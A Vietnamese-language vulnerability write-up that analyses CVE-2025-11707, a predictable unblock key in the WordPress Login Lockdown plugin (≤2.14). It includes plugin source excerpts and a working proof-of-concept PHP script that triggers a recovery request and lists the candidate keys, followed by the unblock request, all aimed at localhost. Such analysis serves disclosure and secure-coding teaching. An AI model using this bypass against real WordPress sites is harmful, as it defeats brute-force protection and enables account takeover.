

# CVE-2025-11707 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin Login Lockdown & Protection cho WordPress bị tồn tại lỗ hổng cho phép **vượt qua cơ chế chặn IP** trong tất cả các phiên bản từ trước đến **2.14 (bao gồm cả 2.14)**. Nguyên nhân là do khóa `$unblock_key` không đủ ngẫu nhiên, khiến những người dùng **chưa xác thực** nhưng có quyền truy cập vào email của tài khoản quản trị có thể **tạo ra khóa mở chặn hợp lệ cho địa chỉ IP của họ**. Điều này cho phép kẻ tấn công chưa xác thực **vượt qua việc bị chặn do đăng nhập sai nhiều lần**.

* **CVE ID**: [CVE-2025-11707](https://www.cve.org/CVERecord?id=CVE-2025-11707)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 2.14
* **Patched Versions**: 2.15
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Login Lockdown Plugin](https://wordpress.org/plugins/login-lockdown/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Login Lockdown**:  
    * `2.14` – **vulnerable**  
    * `2.15` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
> [!NOTE]
> Theo mô tả của CVE, lỗ hổng cho phép kẻ tấn công vượt qua cơ chế chặn IP sau nhiều lần đăng nhập thất bại.
> Trước khi phân tích kỹ thuật bypass, cần hiểu rõ **cách plugin thực hiện cơ chế block**.

### Increment Fails
Plugin đăng ký action hook cho sự kiện đăng nhập thất bại:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
add_action('wp_login_failed', array('LoginLockdown_Functions', 'loginFailed'), 10, 2);
```

Khi đăng nhập thất bại, WordPress sẽ gọi hàm `loginFailed()`:

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function loginFailed($username, $error)
{
    self::incrementFails($username, $error->get_error_code());
}
```

Hàm này tiếp tục gọi `incrementFails()` để lưu lại lần đăng nhập thất bại cùng mã lỗi:

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function incrementFails($username = "", $reason = "")
{
    global $wpdb;
    $options = LoginLockdown_Setup::get_options();
    $ip = LoginLockdown_Utility::getUserIP();

    $username = sanitize_user($username);
    $user = get_user_by('login', $username);

    if ($user || 1 == $options['lockout_invalid_usernames']) {
      if ($user === false) {
        $user_id = -1;
      } else {
        $user_id = $user->ID;
      }

      //phpcs:ignore no need to cache
      $wpdb->insert( //phpcs:ignore
        $wpdb->lockdown_login_fails,
        array(
          'user_id' => $user_id,
          'login_attempt_date' => current_time('mysql'),
          'login_attempt_IP' => $ip,
          'failed_user' => $username,
          'reason' => $reason
        )
      );
    }
}
```

Trong cơ sở dữ liệu, các bản ghi được lưu như sau:

```sh
mysql> select * from wp_login_fails;
+------------------+---------+---------------------+------------------+-------------+------------------+
| login_attempt_ID | user_id | login_attempt_date  | login_attempt_IP | failed_user | reason           |
+------------------+---------+---------------------+------------------+-------------+------------------+
|                5 |      -1 | 2026-01-22 03:07:05 | 172.18.0.1       | a           | invalid_username |
|                6 |      -1 | 2026-01-22 03:24:09 | 172.18.0.1       | a           | invalid_username |
+------------------+---------+---------------------+------------------+-------------+------------------+
```

Như vậy, mỗi lần đăng nhập thất bại sẽ được ghi lại kèm theo IP, username và lý do lỗi.

### Authentication & Block
Plugin can thiệp trực tiếp vào quá trình xác thực bằng cách đăng ký filter `authenticate`:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
add_filter('authenticate', array('LoginLockdown_Functions', 'wp_authenticate_username_password'), 20, 3);
```

Hàm `wp_authenticate_username_password()` được thực thi trong quá trình đăng nhập và có vai trò kiểm soát việc cho phép hay chặn xác thực.

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function wp_authenticate_username_password($user, $username, $password)
{
    if (is_a($user, 'WP_User')) {
      return $user;
    }

    $options = LoginLockdown_Setup::get_options();

    $whitelisted = false;
    $user_ip = LoginLockdown_Utility::getUserIP();
    if (in_array($user_ip, $options['whitelist'])) {
      $whitelisted = true;
    }

    if (!$whitelisted && self::isLockedDown()) {
      self::lockdown_screen($options['block_message']);
      return new WP_Error('lockdown_fail_count', __("<strong>ERROR</strong>: We're sorry, but this IP has been blocked due to too many recent failed login attempts.<br /><br />Please try again later.", 'login-lockdown'));
    }

    if (!$username) {
      return $user;
    }

    if (self::is_rest_request()) {
      return $user;
    }

    $captcha = self::handle_captcha();
    if (is_wp_error($captcha)) {
      if ($options['max_login_retries'] <= self::countFails($username) && self::countFails($username) > 0) {
        self::lockDown($username, 'Too many captcha fails');
      }
      return $captcha;
    }

    $userdata = get_user_by('login', $username);

    if (!$whitelisted && $options['max_login_retries'] <= self::countFails($username)) {
      if ($options['max_login_retries'] <= self::countFails($username) && self::countFails($username) > 0) {
        self::lockDown($username, 'Too many fails');
      }

      return new WP_Error('lockdown_fail_count', __("<strong>ERROR</strong>: We're sorry, but this IP has been blocked due to too many recent failed login attempts.<br /><br />Please try again later.", 'login-lockdown'));
    }

    if (empty($username) || empty($password)) {
      $error = new WP_Error();

      if (empty($username))
        $error->add('empty_username', __('<strong>ERROR</strong>: The username field is empty.', 'login-lockdown'));

      if (empty($password))
        $error->add('empty_password', __('<strong>ERROR</strong>: The password field is empty.', 'login-lockdown'));

      return $error;
    }

    if ($userdata === false) {
      /* translators: %s is the url of the WordPress lost password page. */
      return new WP_Error('invalid_username', sprintf(__('<strong>ERROR</strong>: Invalid username. <a href="%s" title="Password Lost and Found">Lost your password</a>?', 'login-lockdown'), site_url('wp-login.php?action=lostpassword', 'login')));
    }

    $userdata = apply_filters('wp_authenticate_user', $userdata, $password);
    if (is_wp_error($userdata)) {
      return $userdata;
    }

    if (!is_string($password) || !is_string($userdata->user_pass) || is_null($userdata->ID) || !wp_check_password($password, $userdata->user_pass, $userdata->ID)) {
      /* translators: %s is the url of the WordPress lost password page. */
      return new WP_Error('incorrect_password', sprintf(__('<strong>ERROR</strong>: Incorrect password. <a href="%s" title="Password Lost and Found">Lost your password</a>?', 'login-lockdown'), site_url('wp-login.php?action=lostpassword', 'login')));
    }

    $user =  new WP_User($userdata->ID);
    return $user;
}
```

1. **Bỏ qua nếu người dùng đã được xác thực**

```php
if (is_a($user, 'WP_User')) {
    return $user;
}
```

Nếu WordPress đã xác thực thành công từ trước, plugin không can thiệp thêm.

2. **Kiểm tra whitelist và trạng thái bị khóa**

```php
$user_ip = LoginLockdown_Utility::getUserIP();
if (in_array($user_ip, $options['whitelist'])) {
    $whitelisted = true;
}

if (!$whitelisted && self::isLockedDown()) {
    self::lockdown_screen($options['block_message']);
    return new WP_Error('lockdown_fail_count', 'IP has been blocked');
}
```

Nếu IP không nằm trong whitelist và đang bị khóa, hệ thống sẽ chặn đăng nhập ngay lập tức.

3. **Bỏ qua trong một số trường hợp đặc biệt**

```php
if (!$username) return $user;
if (self::is_rest_request()) return $user;
```

Nếu không có username hoặc là REST request, plugin không áp dụng kiểm soát đăng nhập.

4. **Xử lý CAPTCHA**

```php
$captcha = self::handle_captcha();
if (is_wp_error($captcha)) {
    if ($options['max_login_retries'] <= self::countFails($username)) {
        self::lockDown($username, 'Too many captcha fails');
    }
    return $captcha;
}
```

Nếu CAPTCHA thất bại và số lần lỗi vượt ngưỡng, tài khoản/IP sẽ bị khóa.

5. **Kiểm tra số lần đăng nhập thất bại**

```php
if (!$whitelisted && $options['max_login_retries'] <= self::countFails($username)) {
    self::lockDown($username, 'Too many fails');
    return new WP_Error('lockdown_fail_count', 'IP has been blocked');
}
```

Nếu vượt quá số lần cho phép, plugin sẽ kích hoạt cơ chế khóa.

> [!NOTE]
> `max_login_retries` được setup trong Admin Dashboard, giá trị mặc định sẽ là `3`
> 

=> Như vậy, chỉ cần **3 lần đăng nhập thất bại liên tiếp**, IP sẽ bị đưa vào trạng thái bị chặn và mọi lần đăng nhập tiếp theo từ IP đó sẽ bị từ chối ngay **từ đầu quá trình xác thực**.


### Get Unlock Key

Để kích hoạt quy trình mở khóa, người dùng phải gửi form recovery kèm theo **email của một tài khoản administrator**.

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
if (!isset($_POST['loginlockdown_recovery_email']) || !filter_var(wp_unslash($_POST['loginlockdown_recovery_email']), FILTER_VALIDATE_EMAIL)) {
  $display_message = '<p class="error">Invalid email address.</p>';
} else {
  $email = sanitize_text_field(wp_unslash($_POST['loginlockdown_recovery_email']));
  $user = get_user_by('email', $email);        
  if (user_can($user, 'administrator')) {
    $unblock_key = md5(time() . wp_rand(10000, 9999));
    $unblock_attempts = get_transient('loginlockdown_unlock_count_' . $user->ID);
    if (!$unblock_attempts) {
      $unblock_attempts = 0;
    }

    $unblock_attempts++;
    set_transient('loginlockdown_unlock_count_' . $user->ID, $unblock_attempts, HOUR_IN_SECONDS);

    if ($unblock_attempts <= 3) {
      set_transient('loginlockdown_unlock_' . $unblock_key, $unblock_key, HOUR_IN_SECONDS);

      $unblock_url = add_query_arg(array('loginlockdown_unblock' => $unblock_key), wp_login_url());

      $subject  = 'Login Lockdown unblock instructions for ' . site_url();
      $message  = '<p>The IP ' . LoginLockdown_Utility::getUserIP() . ' has been locked down and someone submitted an unblock request using your email address <strong>' . $email . '</strong></p>';
      $message .= '<p>If this was you, and you have locked yourself out please click <a target="_blank" href="' . $unblock_url . '">this link</a> which is valid for 1 hour.</p>';
      $message .= '<p>Please note that for security reasons, this will only unblock the IP of the person opening the link, not the IP of the person who submitted the unblock request. To unblock someone else please do so on the <a href="' . admin_url('options-general.php?page=loginlockdown#loginlockdown_activity') . '">Login Lockdown Activity Page</p>';

      add_filter('wp_mail_content_type', function () {
        return "text/html";
      });

      wp_mail($user->user_email, $subject, $message);
    }
  } else {
    // If no admin using the submitted email exists, ignore silently
  }

  if (isset($unblock_attempts) && $unblock_attempts > 3) {
    $display_message = '<p class="error">You have already attempted to unblock yourself recently, please wait 1 hour before trying again.</p>';
  } else {
    $display_message = '<p>If an administrator having the email address <strong>' . $email . '</strong> exists, an email has been sent with instructions to regain access.</p>';
  }
}
```

1. **Xác minh email có thuộc về administrator hay không**

```php
$email = sanitize_text_field(wp_unslash($_POST['loginlockdown_recovery_email']));
$user = get_user_by('email', $email);

if (user_can($user, 'administrator')) 
```

Chỉ khi email thuộc về tài khoản có quyền **administrator** thì hệ thống mới tiếp tục sinh unlock key và gửi email.

2. **Giới hạn số lần yêu cầu mở khóa**

```php
$unblock_attempts = get_transient('loginlockdown_unlock_count_' . $user->ID);
$unblock_attempts++;
set_transient('loginlockdown_unlock_count_' . $user->ID, $unblock_attempts, HOUR_IN_SECONDS);
```

* Giới hạn: tối đa **3 lần / 1 giờ / mỗi admin**
* Bộ đếm gắn với `user_id`, không gắn với **IP đang bị block**

=> Nếu tồn tại nhiều tài khoản admin, mỗi tài khoản có quota riêng, dễ bị lạm dụng.

3. **Sinh `unblock_key` và lưu transient**

```php
$unblock_key = md5(time() . wp_rand(10000, 9999));
set_transient('loginlockdown_unlock_' . $unblock_key, $unblock_key, HOUR_IN_SECONDS);
```

`unblock_key` được tạo từ:
* `time()` => timestamp theo giây (dễ đoán)
* `wp_rand(10000, 9999)` => chỉ trả về 2 giá trị: `9999` và `10000`
* Hash MD5 => không làm tăng entropy

Key chỉ được lưu đơn lẻ trong transient, không gắn với IP hay user.

=> Chỉ cần đoán đúng key còn hiệu lực trong 1 giờ là có thể kích hoạt unblock cho IP hiện tại.

4. **Gửi link mở khóa qua email**

```php
$unblock_url = wp-login.php?loginlockdown_unblock=<key>
wp_mail($user->user_email, ...);
```

Email chứa link mở khóa có hiệu lực trong 1 giờ.
Theo thiết kế, admin phải bấm link trên **IP đang bị khóa** để mở khóa IP đó.

> [!NOTE]
> Như vậy, kẻ tấn công **không cần truy cập email của administrator**.
> Chỉ cần **gửi yêu cầu mở khóa để kích hoạt quá trình sinh `unblock_key`**, đồng thời **tự sinh các giá trị key theo đúng thuật toán trong code** (dựa trên `time()` và `wp_rand()`), rồi thử trực tiếp trên endpoint:
>
> ```
> wp-login.php?loginlockdown_unblock=<key>
> ```
>
> Khi đoán trúng một `unblock_key` còn hiệu lực trong transient, IP hiện tại sẽ được **mở khóa ngay lập tức**, từ đó có thể tiếp tục thực hiện các lần đăng nhập thử mật khẩu.
>
> => Điều này cho phép kẻ tấn công **liên tục tự mở khóa cho chính mình**, vô hiệu hóa hoàn toàn cơ chế chặn IP của plugin.

### Unlock
Plugin đăng ký hook ở giai đoạn rất sớm của vòng đời request:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
add_action('init', array('loginlockdown', 'init'), -1);
```

Trong hàm `init()`, plugin gọi trực tiếp:

```php {title="loginlockdown.php v2.14" hl_lines=[] data-open=true}
LoginLockdown_Functions::handle_unblock();
```

Điều này có nghĩa là **mọi request tới WordPress**, kể cả trước khi hiển thị trang đăng nhập hay kiểm tra xác thực, đều sẽ chạy logic mở khóa nếu tồn tại tham số:

```php
?loginlockdown_unblock=...
```

=> Chỉ cần gửi một HTTP request bất kỳ tới site kèm tham số này là có thể kích hoạt logic unblock.

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
static function handle_unblock()
{
  global $wpdb;
  //phpcs:ignore missing nonce as this is called via a link in email or stored by user
  $options = LoginLockdown_Setup::get_options();
  if (isset($_GET['loginlockdown_unblock']) && $options['global_unblock_key'] === sanitize_text_field(wp_unslash($_GET['loginlockdown_unblock']))) { //phpcs:ignore
    $user_ip = LoginLockdown_Utility::getUserIP();
    if (!in_array($user_ip, $options['whitelist'])) {
      $options['whitelist'][] = LoginLockdown_Utility::getUserIP();
    }
    update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
  }

  if (isset($_GET['loginlockdown_unblock']) && strlen($_GET['loginlockdown_unblock']) == 32) { //phpcs:ignore
    $unblock_key = sanitize_key(wp_unslash($_GET['loginlockdown_unblock'])); //phpcs:ignore
    $unblock_transient = get_transient('loginlockdown_unlock_' . $unblock_key);
    if ($unblock_transient == $unblock_key) {
      $user_ip = LoginLockdown_Utility::getUserIP();
      //phpcs:ignore no need to cache
      $wpdb->delete( //phpcs:ignore
        $wpdb->lockdown_lockdowns,
        array(
          'lockdown_IP' => $user_ip
        )
      );

      if (!in_array($user_ip, $options['whitelist'])) {
        $options['whitelist'][] = LoginLockdown_Utility::getUserIP();
      }

      update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
    }
  }
}
```

Hàm này hỗ trợ hai cơ chế mở khóa IP.

1. **Mở khóa bằng Global Unblock Key**

```php {title="functions.php v2.14" hl_lines=[] data-open=true}
if (isset($_GET['loginlockdown_unblock']) 
    && $options['global_unblock_key'] === sanitize_text_field($_GET['loginlockdown_unblock'])) {

    $user_ip = LoginLockdown_Utility::getUserIP();
    if (!in_array($user_ip, $options['whitelist'])) {
        $options['whitelist'][] = $user_ip;
    }
    update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
}
```

Nếu tham số trùng với **global key trong cấu hình**, IP hiện tại sẽ được:
* Thêm vào whitelist
* Không còn bị block vĩnh viễn

Cơ chế này hoàn toàn phụ thuộc vào việc giữ bí mật **global key**.


2. **Mở khóa bằng Recovery Key (Transient)**

```php
if (isset($_GET['loginlockdown_unblock']) && strlen($_GET['loginlockdown_unblock']) == 32) {
    $unblock_key = sanitize_key($_GET['loginlockdown_unblock']);
    $unblock_transient = get_transient('loginlockdown_unlock_' . $unblock_key);

    if ($unblock_transient == $unblock_key) {
        $wpdb->delete($wpdb->lockdown_lockdowns, array('lockdown_IP' => $user_ip));

        if (!in_array($user_ip, $options['whitelist'])) {
            $options['whitelist'][] = $user_ip;
        }
        update_option(LOGINLOCKDOWN_OPTIONS_KEY, $options);
    }
}
```

Đây là cơ chế mở khóa dựa trên **recovery key được lưu trong transient**.
Plugin chỉ kiểm tra hai điều kiện:

1. Tham số `loginlockdown_unblock` có độ dài đúng **32 ký tự** (dạng MD5)
2. Tồn tại transient `loginlockdown_unlock_<key>` với giá trị trùng khớp

Nếu thỏa mãn, IP hiện tại sẽ được:

* Xóa khỏi bảng `lockdown_lockdowns`
* Thêm vào whitelist

=> IP được mở khóa ngay lập tức và không còn bị chặn trong các lần đăng nhập tiếp theo.

Key này đã được ta phân tích ở phần trước đó.

## Flow


## Proof of Concept (PoC)

1. Tạo file `gen_key.php` để đoán unlock key sau khi bị block

```php
<?php

$url = "http://localhost/wp-login.php";

$data = http_build_query([
    "loginlockdown_recovery_email"  => "admin_email",
    "loginlockdown_recovery_submit" => "Send unblock email",
    "loginlockdown_recovery_nonce"  => "valid_nonce",
    "_wp_http_referer"               => "/wp-login.php",
]);

$opts = [
    "http" => [
        "method"  => "POST",
        "header"  =>
            "Content-Type: application/x-www-form-urlencoded\r\n" .
            "Referer: http://localhost/wp-login.php\r\n" .
            "User-Agent: PHP\r\n" .
            "Cookie: wordpress_test_cookie=WP%20Cookie%20check\r\n",
        "content" => $data,
        "ignore_errors" => true
    ]
];

$context = stream_context_create($opts);
$response = file_get_contents($url, false, $context);

echo $response;

$now = time();

for ($t = $now - 1; $t <= $now + 1; $t++) {
    for ($r = 9999; $r <= 10000; $r++) {
        echo md5($t . $r) . PHP_EOL;
    }
}
```

> [!NOTE]
> Do `unblock_key` được sinh dựa trên `time()` (độ chính xác theo **giây**), kẻ tấn công chỉ cần tạo các giá trị key trong khoảng **±1 giây** so với thời điểm gửi request recovery.
> Với mỗi timestamp chỉ có rất ít giá trị ngẫu nhiên khả dĩ, tổng không gian tìm kiếm là **rất nhỏ**, cho phép thử toàn bộ các key hợp lệ trong thời gian ngắn khi transient vẫn còn hiệu lực.

2. Chạy file `gen_key.php` để lấy key:

```php
┌──(w41🎃w41)-[~/Pentest/tmp]
└─$ gen_key.php 
... 
98b65fa71ca7a0f5aeefc93082c6a381
72a72562252bcd5c005bfbce95d72bea
f98100c86d0bd348eeb18332ac85756b
63894ea709e4be84967328ad37392043
f67370456015246850e783fbb406a176
bf31356071a060b3d9d12d9dc3711b30
```

**Key được lưu trong database**:

```sh
mysql> SELECT option_name, option_value  FROM wp_options  WHERE option_name LIKE '%loginlockdown_unlock_%';
+--------------------------------------------------------------------------+----------------------------------+
| option_name                                                              | option_value                     |
+--------------------------------------------------------------------------+----------------------------------+
| _transient_timeout_loginlockdown_unlock_count_1                          | 1769100607                       |
| _transient_loginlockdown_unlock_count_1                                  | 1                                |
| _transient_timeout_loginlockdown_unlock_f98100c86d0bd348eeb18332ac85756b | 1769100607                       |
| _transient_loginlockdown_unlock_f98100c86d0bd348eeb18332ac85756b         | f98100c86d0bd348eeb18332ac85756b |
+--------------------------------------------------------------------------+----------------------------------+
```

=> Trùng với key ta đã tạo ở trên

3. Gửi request unlock

```http
GET /?loginlockdown_unblock=f98100c86d0bd348eeb18332ac85756b HTTP/1.1
Host: localhost
```


## Conclusion

Lỗ hổng trong plugin **Login Lockdown & Protection ≤ 2.14** xuất phát từ việc thiết kế cơ chế recovery không an toàn. Mặc dù quy trình mở khóa được xây dựng với mục đích yêu cầu administrator xác nhận qua email, nhưng trên thực tế, **việc sinh và kiểm tra `unblock_key` không ràng buộc với người dùng, IP hay session**, đồng thời sử dụng nguồn entropy rất thấp. Điều này cho phép kẻ tấn công chưa xác thực có thể **tự tạo và thử các khóa hợp lệ trong thời gian ngắn**, từ đó mở khóa IP của chính mình mà không cần truy cập vào email của quản trị viên. Kết quả là toàn bộ cơ chế chặn IP sau nhiều lần đăng nhập thất bại có thể bị vô hiệu hóa.

## Key Takeaways

* Cơ chế bảo mật dựa trên **email confirmation** sẽ không còn ý nghĩa nếu **token có thể bị đoán được**.
* Token dùng cho các hành động nhạy cảm phải có **entropy cao**, không được dựa vào `time()` hoặc nguồn ngẫu nhiên có không gian tìm kiếm nhỏ.
* Recovery token cần được **ràng buộc với ngữ cảnh** (IP, user, session, hoặc request) thay vì chỉ tồn tại độc lập trong hệ thống.
* Logic xử lý mở khóa được gắn vào hook `init` khiến endpoint mở khóa có thể bị kích hoạt từ **bất kỳ request nào**, làm tăng bề mặt tấn công.
* Các cơ chế giới hạn (rate-limit) nếu chỉ gắn với **user ID** mà không gắn với IP hoặc request source có thể bị lạm dụng trong kịch bản tấn công chưa xác thực.

## References
[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Login Lockdown Plugin <= 2.14 is vulnerable to Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/login-lockdown/vulnerability/wordpress-login-lockdown-protection-plugin-2-14-ip-block-bypass-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2026-01-22-cve-2025-11707/  

